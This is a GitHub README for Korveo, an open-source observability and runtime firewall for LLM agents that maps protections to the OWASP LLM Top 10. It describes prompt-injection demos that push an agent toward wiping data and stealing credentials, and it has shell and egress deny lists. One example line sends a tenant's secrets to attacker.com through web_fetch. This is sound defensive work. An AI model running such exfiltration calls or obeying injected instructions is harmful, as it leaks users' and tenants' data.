

<p align="center">
   
</p>

<div align="center">
   <h3>
      <a href="#-quickstart">
         <strong>Quickstart</strong>
      </a> ·
      <a href="#%EF%B8%8F-four-pillars--observe-govern-defend-operate">
         <strong>Four Pillars</strong>
      </a> ·
      <a href="#-integrations">
         <strong>Integrations</strong>
      </a> ·
      <a href="#%EF%B8%8F-owasp-llm-top-10-guardrails--at-runtime">
         <strong>OWASP Guardrails</strong>
      </a> ·
      <a href="https://github.com/zistica/korveo/discussions">
         <strong>Discussions</strong>
      </a>
   </h3>
</div>

<p align="center">
   <a href="https://github.com/zistica/korveo/blob/main/LICENSE">
      
   </a>
   <a href="https://github.com/zistica/korveo/actions/workflows/ci.yml">
      
   </a>
   <a href="https://github.com/zistica/korveo/stargazers">
      
   </a>
   <a href="https://github.com/zistica/korveo/commits/main">
      
   </a>
   <a href="https://hub.docker.com/r/zistica/korveo">
      
   </a>
   <a href="https://www.python.org">
      
   </a>
   <a href="https://nodejs.org">
      
   </a>
   <a href="https://www.typescriptlang.org">
      
   </a>
</p>

<p align="center">
   <strong>See everything your AI agent does — and stop it before it does something catastrophic.</strong><br/>
   A full trace of every LLM call, tool, and decision, plus a real-time firewall that blocks credential exfil, cross-tenant leaks, and destructive tool calls.<br/>
   100% local. No account, no API key, no data egress. One command.
</p>

```bash
pip install -U korveo
korveo quickstart   # API + dashboard + starter policies, zero config
korveo demo         # watch the firewall block a live attack (~30s, no keys)
```

<p align="center">
   <sub><code>korveo demo</code> instruments a real agent, then prompt-injects it into wiping data and stealing credentials — and you watch the firewall block it live, on your machine. ~30 seconds, no keys.</sub>
</p>

<!-- Animated GIF preview, click → full 52s video on YouTube.
     GIF is 1000px/10fps/128-color palette to stay under 7MB —
     small enough for the README to load fast, readable enough for
     the dashboard panels and trace IDs to be legible. -->
<p align="center">
   
</p>

<p align="center">
   <sub>⭐ <strong>If watching a firewall block a live agent attack made you go "oh" — star the repo.</strong> It's the single signal that tells us to keep shipping this in the open.</sub>
</p>

---

## 🏛️ Four Pillars · Observe, Govern, Defend, Operate

Most LLM tooling picks one corner of the agent operations problem. Korveo covers all four — in one self-hosted Docker container, across every major framework.

### 🔍 Observe

- **[Universal tracing](packages/sdk-python/korveo/integrations/)** — 16 first-class integrations (Python SDK, TypeScript SDK, LangChain, LangGraph, LlamaIndex, CrewAI, AutoGen, LiteLLM, OpenAI Agents, Pydantic AI, Anthropic, Mastra, VoltAgent, OpenClaw, OpenAI-compat proxy, OTLP receiver). Instrument any agent in 2 lines or zero with the proxy.
- **Full span tree** — every LLM call, tool invocation, retrieval, embedding, custom span. Anthropic extended-thinking blocks captured as first-class child spans.
- **💬 [Multi-turn sessions](packages/dashboard/app/sessions/)** — group related traces under a single conversation. Aggregate cost, duration, and quality across turns.
- **💰 Cost & token attribution** — per-call breakdown for OpenAI, Anthropic, Ollama, and extended-thinking tokens.
- **🌊 [Real-time stream](packages/dashboard/lib/websocket.ts)** — WebSocket fanout pushes new traces and spans to the dashboard the instant they're ingested.
- **[Evals & scoring](packages/api/routers/evals.py)** — run evaluators against traces, attach scores, compare versions over time.

### 📜 Govern

- **[Policy engine](packages/api/firewall/)** — DB-backed rules with a typed DSL (`before_proxy_call` / `after_proxy_call` lifecycle, priority, severity, conditions like `prompt_guard_score(...)`, `has_image_markdown_exfil(...)`, `vault_match(...)`, `cost_in_window(...)`).
- **[12 starter policy packs](packages/api/firewall/starter_packs/)** — ship pre-built: OWASP LLM Top 10, OWASP Agentic 2025, GDPR, HIPAA, PCI-DSS, cost guards, cross-session isolation, customer support, code assistant, dev environment safety, framework-specific (LangGraph, Mastra). Auto-installed in `shadow` mode on first boot; promote rules one at a time.
- **[Shadow / enforce modes](packages/api/firewall/decide.py)** — every rule starts as `shadow` (records what it would have done). Promote to `enforce` after reviewing the dashboard timeline.
- **Versioning, rollback, audit** — every policy edit recorded; one-click rollback to any prior version.
- **[Policy suggester](packages/api/firewall/suggester.py)** — mines patterns from your real traces and proposes rules. Dashboard shows accept / dismiss / promote.
- **[Replay](packages/api/firewall/replay.py)** — test a draft policy against historical traces before promoting it. Get the would-block / would-allow counts.
- **[Drift detection](packages/api/firewall/drift.py)** — alerts when prompt-injection scores, PII rates, or tool-call shapes shift outside the training distribution.
- **[Approvals queue](packages/dashboard/app/approvals/)** & **[decisions audit](packages/dashboard/app/decisions/)** — human-in-the-loop for the rules that opt in.

### 🛡️ Defend — [OWASP LLM Top 10 at runtime](#%EF%B8%8F-owasp-llm-top-10-guardrails--at-runtime)

- **8 detection methods** layered: Presidio NER (PII), Prompt Guard 2 (22M-param injection classifier), Llama Guard 4 (14 MLCommons hazard categories), LLM-judge, embedding similarity, indirect-prompt-injection detection, locally-trainable classifier (per-corpus retraining), regex packs.
- **[Tenant-isolation firewall](#%EF%B8%8F-owasp-llm-top-10-guardrails--at-runtime)** — 5-layer structural defense for multi-tenant bots (per-user file sandbox, deny shells & egress, conversation-history reset, prompt redaction, audit). One layer of the Defend pillar; deep dive below.
- **[Attack generator](packages/api/firewall/attack_generator.py)** — synthesizes adversarial test cases per OWASP category for CI testing.
- **[PII vault](packages/api/firewall/vault.py)** + **foreign-tenant excerpts** — server-side store of known sensitive strings; cross-checked at every span ingest.
- **[Panic disable](packages/api/firewall/__init__.py)** — emergency kill-switch for all firewall enforcement (with banner + audit).

### 🛠️ Operate

- **[Webhook fanout](packages/api/firewall/webhooks.py)** — every block, redaction, or policy hit fires to PagerDuty, Slack, SIEM endpoints. Retry + dead-letter built in.
- **[Backups + retention](packages/api/routers/admin.py)** — scheduled DuckDB snapshots, configurable retention windows, one-click restore.
- **Metrics + health** — Prometheus-shape `/v1/admin/metrics`, liveness + readiness endpoints.
- **🛟 [Resilient by design](packages/sdk-python/korveo/exporter.py)** — your agent never fails because Korveo is down. Spans drop silently if the queue overflows, the exporter is unreachable, or the server returns 5xx. **A Korveo outage MUST never affect the agent.**
- **🏠 Local-first** — single Docker image, DuckDB + SQLite, no external services. Runs on a laptop or a 2-vCPU VPS.

## 🛡️ OWASP LLM Top 10 Guardrails — at runtime

This is the **Defend** pillar in depth — one of Korveo's four pillars. The Observe, Govern, and Operate pillars cover everything around it (tracing every span, authoring + rolling back policies, audit + alerts).

Most other LLM tools cover only one corner: **observability** stacks (Langfuse, LangSmith, Helicone, Arize) record what your agent did *after* it did it; **guardrail classifiers** (Lakera, NemoGuardrails) score single prompts in isolation. Korveo does both, plus the policy lifecycle around them.

Every span ingested is recorded *and* scored against runtime OWASP LLM Top 10 protections:

| OWASP risk | Korveo protection |
|---|---|
| **LLM01 — Prompt Injection** | Pattern + LLM-judge detection on every input. Blocks or flags before the prompt reaches the model. |
| **LLM02 / LLM06 — Sensitive Info Disclosure** | Microsoft Presidio NER scrubs PII, names, orgs, IDs, emails, phones, SSNs, credit cards, passports from prompts and history (configurable confidence threshold). |
| **LLM03 — Supply-Chain** | Every tool call audited with a tamper-evident trail. Tool allowlist + plugin manifest signing. |
| **LLM05 — Insecure Output Handling** | Output-filter chain (regex + structural) before responses leave the agent. Blocks PII echo-back and exfiltration patterns. |
| **LLM08 — Excessive Agency** | Deny-by-default for shells (`exec`, `bash`, `python`, `ruby`, …) and network egress (`web_fetch`, `curl`, `http_*`). Per-user file sandbox. |
| **LLM09 — Overreliance** | Policy engine with declarative rules + human approval queue. Anything outside the rules pauses until a human signs off. |
| **LLM10 — Model Theft / Cross-tenant Exfiltration** | Tenant-isolation firewall: conversation-history reset on sender switch, structural blocking of cross-session leaks in multi-tenant bots. |

### The tenant-isolation layer in detail

LLM08 + LLM10 together cover a problem most guardrail classifiers miss: in a multi-tenant Slack / Telegram / Discord / SaaS bot, one customer's data leaking into another customer's chat. Korveo's tenant firewall stacks five structural layers:

| Layer | What it does |
|---|---|
| **L1 storage sandbox** | Every fs tool call (`read`, `write`, `edit`, `grep`, `cat`, `head`, `tail`, …) gets its `path` parameter rewritten to `${workspace}/_korveo/by-sender/<sender>/`. The bot literally has no path to another tenant's data. |
| **L1.5 deny shell + egress** | Tools that bypass file paths — `exec`, `shell`, `bash`, `python`, `web_fetch`, `http_get`, `curl` — refused by default. An attacker can't `exec("cat ../alice/secret")` or `web_fetch("https://attacker.com?leak=...")`. |
| **L2 conversation history reset** | When the active sender changes for a shared agent, the LLM's message history is wiped before it sees the next turn. Foreign-tenant text never enters context. |
| **L3 input redaction** | Every prompt + history scanned by Presidio NER + structural ID regexes + foreign-vault excerpts before the LLM call. Replaced with `[REDACTED]`. |
| **L4 audit trail** | Every block, redaction, and sandbox rewrite recorded in `policy_violations`. Webhooks fire to PagerDuty / Slack / SIEM. |

**Verified live**: a real Telegram → Slack leak attempt with the `standard` profile blocked all 5+ bypass routes (3 `exec` calls denied, 2 `read` calls sandboxed to empty per-sender dir, 97 prior-tenant messages cleared from history, foreign-vault entries redacted from the prompt). The bot's reply contained zero foreign-tenant data. See the demo video above.

### How Korveo compares

| | Korveo | Langfuse | Lakera | NemoGuard |
|---|---|---|---|---|
| **Full-trace observability** | ✅ | ✅ | ❌ | ❌ |
| **Cost + token attribution** | ✅ | ✅ | ❌ | ❌ |
| **Evals + scoring** | ✅ | ✅ | ❌ | ❌ |
| **Prompt-injection detection (LLM01)** | ✅ | ❌ | ✅ | ✅ |
| **PII redaction in prompt (LLM02/LLM06)** | ✅ Presidio | ❌ | ✅ classifier | ✅ classifier |
| **Excessive-agency guard (LLM08)** | ✅ deny exec/fetch | ❌ | ❌ | ❌ |
| **Per-user file sandbox (LLM10)** | ✅ structural | ❌ | ❌ | ❌ |
| **Conversation history isolation (LLM10)** | ✅ structural | ❌ | ❌ | ❌ |
| **Policy engine + approval queue** | ✅ | ❌ | ❌ | ⚠️ partial |
| **Self-hosted single Docker** | ✅ | ⚠️ ClickHouse + Postgres + Redis + S3 | ❌ SaaS | ❌ NIM endpoint |
| **Open source** | ✅ Apache-2.0 | ✅ MIT | ❌ | ✅ Apache-2.0 |

Korveo and Langfuse can coexist — Korveo adds the security layer on top of any observability stack. For teams who want a single container instead of a stack, Korveo alone covers both jobs.

---

## 📦 Deploy

### Local — Docker compose (recommended)

Single command, single container, both API and dashboard:

```bash
git clone https://github.com/zistica/korveo
cd korveo
docker compose up -d --wait
```

Then open <http://localhost:3000>. To stop: `docker compose down`. To wipe state: `docker compose down -v`.

### VM — single `docker run`

```bash
docker run -d \
  --name korveo \
  -p 127.0.0.1:3000:3000 \
  -p 127.0.0.1:8000:8000 \
  -v korveo-data:/data \
  zistica/korveo:latest
```

⚠️ **Public VPS deployment**: the API (`:8000`) is **safe by default** — with no `KORVEO_API_TOKEN` set it serves loopback only and returns `403 remote_access_requires_auth` to non-loopback clients, so an instance accidentally bound to `0.0.0.0` won't leak your traces or the firewall control plane. For real remote access set `KORVEO_API_TOKEN` (then send `Authorization: Bearer <token>`); to deliberately run open on a trusted network set `KORVEO_ALLOW_INSECURE=1`. The dashboard (`:3000`) still has no built-in login — set `KORVEO_DASHBOARD_PASSWORD`, bind to `127.0.0.1` (as shown), and tunnel: `ssh -L 3000:localhost:3000 user@vps`.

### Smaller image (size-constrained VPS)

Default image ships `en_core_web_lg` (Presidio NER, ~750MB). Swap to `_md` (40MB) at build time:

```bash
docker compose build --build-arg KORVEO_PRESIDIO_MODEL=en_core_web_md
```

---

## 🔌 Integrations

### First-party SDKs and plugins

| Integration | Type | Description |
| --- | --- | --- |
| [Python SDK](packages/sdk-python/) | `pip install korveo` | `@korveo.trace` decorator, `korveo.span()` context manager, sessions, policy engine, framework integrations |
| [TypeScript SDK](packages/sdk-typescript/) | `@korveo/sdk` | Wire-format peer of the Python SDK; identical behavior |
| [LangChain](packages/sdk-python/korveo/integrations/langchain.py) | Python, callback handler | Zero-config via `KORVEO_TRACING=true` — every chain auto-traced |
| [LangGraph](packages/sdk-python/korveo/integrations/langgraph_firewall.py) | Python | Graph nodes/edges traced; firewall hooks on every node call |
| [LlamaIndex](packages/sdk-python/korveo/integrations/llama_index.py) | Python, callback manager | RAG retrievers, embeddings, query engines, agents |
| [CrewAI](packages/sdk-python/korveo/integrations/crewai.py) | Python | Multi-agent crews — kickoff → agent → tasks tree |
| [AutoGen](packages/sdk-python/korveo/integrations/autogen_firewall.py) | Python | Multi-agent conversations + firewall enforcement per message |
| [LiteLLM](packages/sdk-python/korveo/integrations/litellm_firewall.py) | Python | 100+ providers via LiteLLM router; firewall on every call |
| [OpenAI Agents](packages/sdk-python/korveo/integrations/openai_agents_firewall.py) | Python | OpenAI's `agents` SDK — guard handoffs, tool calls, sub-agents |
| [Pydantic AI](packages/sdk-python/korveo/integrations/pydantic_ai_firewall.py) | Python | Typed agent framework; firewall on tool calls + structured outputs |
| [Anthropic](packages/sdk-python/korveo/integrations/anthropic.py) | Python + TypeScript | Extended-thinking blocks captured as first-class child spans |
| [OpenAI compat](packages/api/routers/proxy.py) | HTTP proxy | Point any OpenAI / Ollama / Anthropic-compat client at `:8000/v1/openai` — auto-instruments without code changes |
| [Mastra](packages/integrations/mastra/) | `@korveo/mastra` | TypeScript agent framework — drop-in replacement for `@mastra/langfuse` |
| [VoltAgent](packages/integrations/voltagent/) | `@korveo/voltagent` | OTel-native exporter |
| [OpenClaw — OTel](packages/integrations/openclaw/) | `@korveo/openclaw` | OTLP receiver, zero-code, no-content (provider/model/tokens/cost only) |
| [OpenClaw — full content](packages/integrations/openclaw-diagnostics/) | `@korveo/openclaw-diagnostics` | Typed-hook plugin: prompts, replies, thinking, **+ the full firewall** |
| [OTel / OTLP](packages/api/routers/otlp.py) | endpoint | `POST /v1/otlp/v1/traces` — receives from any OTel-instrumented agent |

Compatible with anything that speaks OpenTelemetry (Logfire, Phoenix, Datadog GenAI, OpenLLMetry, …). **If your framework isn't here, the OTLP receiver covers it.**

---

## 🚀 Quickstart

### 1️⃣ Start Korveo

The fastest path — the `korveo` CLI wraps Docker, waits for health, opens the dashboard, then fires a real attack demo:

```bash
pip install -U korveo
korveo quickstart # API + dashboard + starter policies, opens http://localhost:3000
korveo demo       # instruments a real agent + watch the firewall block a live attack
korveo scorecard  # grade your firewall vs the OWASP LLM Top-10 attack suite
korveo scorecard --target http://localhost:11434/v1  # grade ANY agent → shareable badge
korveo doctor     # connectivity + which rules are enforcing
```

> The PyPI name `korveo` is held by an unrelated project, so install from Git for now. Securing a distribution name (`korveo-ai`, `pipx`/`uvx`, or a vanity domain) is a pre-Show-HN blocker — see `ROADMAP.md`.

Or drive Docker yourself:

```bash
git clone https://github.com/zistica/korveo
cd korveo
docker compose up -d --wait
# Korveo API on :8000, dashboard on :3000
```

### 2️⃣ Trace your first call

**Python:**

```python
import korveo

korveo.configure(host="http://localhost:8000")  # or set KORVEO_HOST

@korveo.trace
def my_agent(question: str) -> str:
    docs = search_documents(question)
    return gpt4_answer(question, docs)

my_agent("What is the capital of France?")
# Trace appears in the dashboard within ~50ms.
```

**TypeScript:**

```typescript
import { configure, trace } from '@korveo/sdk';

configure({ host: 'http://localhost:8000' });

const myAgent = trace(async (input: string) => {
  return 'hello';
}, { name: 'my_agent' });

await myAgent('test');
```

**LangChain (zero-config):**

```python
import os
os.environ["KORVEO_HOST"] = "http://localhost:8000"
os.environ["KORVEO_TRACING"] = "true"

from langchain_openai import ChatOpenAI
ChatOpenAI().invoke("Hello")  # span recorded with model, tokens, cost
```

### 3️⃣ Open the dashboard

<http://localhost:3000>

That's it. No account, no API key, and **Korveo itself never sends your traces anywhere** — they live in a DuckDB file on disk.

---

## 🧰 The `korveo` CLI

`pip install` puts a `korveo` command on your PATH. Four commands, zero config:

| Command | What it does |
| --- | --- |
| `korveo up` | Start the container (compose or `docker run`), wait for health, open the dashboard. |
| `korveo demo` | Instrument two real traces, arm two OWASP rules, then drive a benign + two attack tool-calls through the **live** firewall. Real blocks, no keys. |
| `korveo scorecard` | Replay the OWASP LLM Top-10 attack suite at your firewall; grade **enforced vs potential** coverage; write a shareable `SCORECARD.md` + shields badge. `--json` for CI. |
| `korveo scorecard --target <url>` | Point it at **any** OpenAI-compatible agent. Korveo delivers the attack suite and judges every reply with its own output detectors → an **"AI agent OWASP safety X%"** badge you can post. |
| `korveo doctor` | Connectivity, rules loaded/enforcing, panic state, and which ML detectors are actually available (so a rule isn't silently no-op'ing). |

```bash
# grade the agent behind Ollama, write a badge, no LLM key needed for the judge
korveo scorecard --target http://localhost:11434/v1 --out SCORECARD.md
```

Every number above is produced locally — nothing leaves the machine.

---

## 🛡️ Add the firewall (multi-user bots)

If your bot serves multiple users (Slack, Telegram, Discord, internal SaaS), turn on tenant isolation:

### 1️⃣ Configure your agent's plugin

In `~/.openclaw/openclaw.json` (or your agent framework's plugin config):

```json
"plugins": {
  "entries": {
    "korveo-diagnostics": {
      "enabled": true,
      "config": {
        "securityProfile": "standard"
      }
    }
  }
}
```

That's the whole config. **90% of operators stop here.**

### 2️⃣ (Optional) Fine-tune

Override individual toggles via the dashboard at <http://localhost:3000/settings/firewall>:

- `enableTenantIsolation` — master switch
- `blockShellTools` — block exec, shell, bash, python, ruby
- `blockWebTools` — block web_fetch, http_get, curl
- `resetMemoryBetweenUsers` — `between-users` / `between-channels` / `never`
- `hideOtherUsersData` — Presidio + structural redaction
- `recordSecurityEvents` — audit-table volume

Or pick a profile that matches your deployment:

| Profile | Use case |
| --- | --- |
| `strict` | Healthcare, finance, legal, regulated multi-tenant SaaS |
| `standard` *(default)* | Multi-user support / sales triage bots |
| `light` | Single-team internal bots, dev environments |
| `logging-only` | Korveo as a Langfuse-style observer (no blocks) |

Each toggle is documented at length in `~/.openclaw/extensions/korveo-diagnostics/openclaw.plugin.json` (the plugin manifest's `configSchema` carries inline descriptions). Dashboard UI also shows live help text per toggle.

### 3️⃣ Verify

Send a test message from sender A. Send a probing message from sender B. Watch the traces at `/traces`, the violations at `/violations`, the dashboard's effective-settings panel at `/settings/firewall`. Cross-session leak attempts show up as `korveo_egress_deny:exec` / `korveo_sandbox_block:*` rows. The bot's own reply contains zero foreign data.

A real walkthrough — Telegram user planted "Northstar Logistics, Priya Raman, $48k ARR" customer notes; Slack user asked for the same data. The bot's reply contained zero foreign-tenant content. Trace evidence: 3× `korveo_egress_deny:exec`, 2× sandbox rewrites to empty per-sender dirs, 97 prior-tenant messages cleared from history at sender-switch. See the demo above for the live capture.

---

## 🏗️ Architecture

```
   Agent code (Python or TypeScript)
        │  @korveo.trace / trace(fn)
        ▼
   SDK queue (bounded, drop-on-overflow)
        │  background async exporter
        ▼
   HTTP POST /v1/spans  ───►  FastAPI ──┐
                                 │      │ broadcast
                                 ▼      ▼
                              DuckDB    /ws/traces (WebSocket fanout)
                              SQLite       │
                                 ▲         │  push: new_trace, new_span
                                 │         │
                       GET /v1/* │         ▼
   Browser  ──►  Next.js Dashboard  ──◄────┘
                  localhost:3000
                  /api/* (HTTP rewrite proxy)
```

Single Docker container runs the API on `:8000` and the Next.js standalone dashboard on `:3000`. Browser HTTP traffic goes through `/api/*` rewrites (same-origin → no CORS). WebSocket connects directly to `:8000/ws/traces` for real-time push.

---

## 📦 Packages

| Path | Package | Tests |
|---|---|---|
| [`packages/sdk-python/`](packages/sdk-python/) | Python SDK — `@korveo.trace`, `korveo.span()`, sessions, policy engine, framework integrations | 209 |
| [`packages/sdk-typescript/`](packages/sdk-typescript/) | `@korveo/sdk` — TS peer of the Python SDK | 59 |
| [`packages/api/`](packages/api/) | FastAPI ingest + query API, DuckDB storage, WebSocket fanout, server-side policy engine, firewall settings | 169 |
| [`packages/integrations/openclaw/`](packages/integrations/openclaw/) | `@korveo/openclaw` — OTel exporter | 59 |
| [`packages/integrations/openclaw-diagnostics/`](packages/integrations/openclaw-diagnostics/) | `@korveo/openclaw-diagnostics` — typed-hook plugin + full tenant-isolation firewall | 67 |
| [`packages/integrations/mastra/`](packages/integrations/mastra/) | `@korveo/mastra` — observability config + exporter | 55 |
| [`packages/integrations/voltagent/`](packages/integrations/voltagent/) | `@korveo/voltagent` — OTel-native exporter | 62 |
| [`packages/dashboard/`](packages/dashboard/) | Next.js 14 dashboard | build + 21 Playwright E2E |

---

## 🛠️ Install for development

```bash
./setup.sh
```

One-shot installer: creates `packages/api/.venv`, installs the local Python SDK editable, installs API dependencies, runs `npm ci` across all 5 Node packages.

The API imports `korveo` from the sibling `packages/sdk-python/`, NOT from PyPI (where an unrelated package shares the name). Don't `pip install korveo` from PyPI inside this workspace.

### Python SDK only

```bash
pip install -e packages/sdk-python              # core
pip install -e packages/sdk-python[langchain]   # + LangChain
pip install -e packages/sdk-python[crewai]      # + CrewAI
pip install -e packages/sdk-python[anthropic]   # + Anthropic
pip install -e packages/sdk-python[llama_index] # + LlamaIndex
pip install -e packages/sdk-python[all]         # all integrations
```

### TypeScript SDK only

```bash
cd packages/sdk-typescript && npm install && npm run build

# In your project:
npm install /absolute/path/to/korveo/packages/sdk-typescript
```

### Docker (whole stack)

Already covered in [Deploy](#-deploy). One image, both API and dashboard.

---

## 📚 Usage examples

### Python — context manager (manual span)

```python
with korveo.span("retrieval", type="retrieval") as s:
    results = vector_db.search(query)
    s.set_output({"count": len(results)})
```

### Python — Anthropic with extended thinking

```python
from korveo.integrations.anthropic import instrument_anthropic
instrument_anthropic()

from anthropic import Anthropic
client = Anthropic()
client.messages.create(
    model="claude-opus-4-20250514",
    max_tokens=16000,
    thinking={"type": "enabled", "budget_tokens": 10000},
    messages=[{"role": "user", "content": "..."}],
)
# Dashboard renders thinking rows with a brain emoji + per-trace
# thinking-vs-response cost breakdown.
```

### Python — CrewAI

```python
from korveo.integrations.crewai import instrument_crew
instrument_crew()

from crewai import Agent, Task, Crew
crew = Crew(agents=[...], tasks=[...])
crew.kickoff()
# crew.kickoff -> root span
# each agent.execute_task -> child span
# LLM calls inside agents -> grandchildren (via the LangChain integration)
```

### TypeScript — Mastra

```typescript
import { Mastra } from '@mastra/core';
import { korveoConfig } from '@korveo/mastra';

export const mastra = new Mastra({
  agents: { myAgent },
  observability: korveoConfig({ serviceName: 'my-mastra-app' }),
});
```

### OpenAI-compatible HTTP proxy (no SDK)

Point any OpenAI-compatible client at `:8000/v1/openai`. Korveo captures every request, response, tokens, and cost — without touching agent code:

```python
from openai import OpenAI

client = OpenAI(
    base_url="http://localhost:8000/v1/openai",  # ← Korveo proxy
    api_key="your-real-openai-key",
)
client.chat.completions.create(...)  # auto-traced
```

Streaming and non-streaming both work. Pass W3C `traceparent` header for span stitching.

---

## 📖 Where things live

- **[Quickstart](#-quickstart)** — start Korveo, trace your first call, open the dashboard
- **[The `korveo` CLI](#-the-korveo-cli)** — `up`, `demo`, `scorecard`, `scorecard --target`, `doctor`
- **[Four Pillars](#%EF%B8%8F-four-pillars--observe-govern-defend-operate)** — Observe, Govern, Defend, Operate at a glance
- **[OWASP LLM Top 10 guardrails](#%EF%B8%8F-owasp-llm-top-10-guardrails--at-runtime)** — the Defend pillar in depth (8 detectors, starter packs, tenant isolation)
- **[Integrations](#-integrations)** — 16 first-party + OTLP for everything else
- **[Add the firewall](#%EF%B8%8F-add-the-firewall-multi-user-bots)** — turn on tenant isolation in three steps
- **[Architecture](#%EF%B8%8F-architecture)** — single Docker container, FastAPI + Next.js + DuckDB
- **[Packages](#-packages)** — every component with test counts
- **[Usage examples](#-usage-examples)** — Python ctxmgr, CrewAI, Anthropic, Mastra, OpenAI proxy
- **In-source docstrings** — every plugin config field, profile, and toggle is documented in the source it lives in (the openclaw plugin's manifest, the dashboard component help text, and the plugin's TypeScript JSDoc).

---

## 🤝 Community

- **[Roadmap](ROADMAP.md)** — what's shipping next, one screen, public source of truth
- **[GitHub Discussions](https://github.com/zistica/korveo/discussions)** — questions, ideas, integrations
- **[GitHub Issues](https://github.com/zistica/korveo/issues)** — bug reports, feature requests
- **[Good first issues](https://github.com/zistica/korveo/issues?q=is%3Aissue+is%3Aopen+label%3Agood-first-issue)** — start with a framework integration; maintainers reply within 24h
- **[Pull Requests](https://github.com/zistica/korveo/pulls)** — contributions welcome; see `CONTRIBUTING.md`

---

## 📄 License

[Apache 2.0](LICENSE) © [Zistica Inc.](https://github.com/amitbidlan)

You can use Korveo free for any purpose — commercial, internal, hosted as a service for your customers — as long as you preserve the license notice. Patent grant included.

---

<p align="center">
   <strong>Observe · Govern · Defend · Operate — one Docker container, every framework.</strong><br/>
   Local-first, Apache-2.0, no telemetry. Your traces never leave your machine.
</p>

<p align="center">
   <sub>Built by <a href="https://github.com/amitbidlan">Amit Bidlan</a> &amp; the Zistica team — local-first by default, structural by design.</sub>
</p>
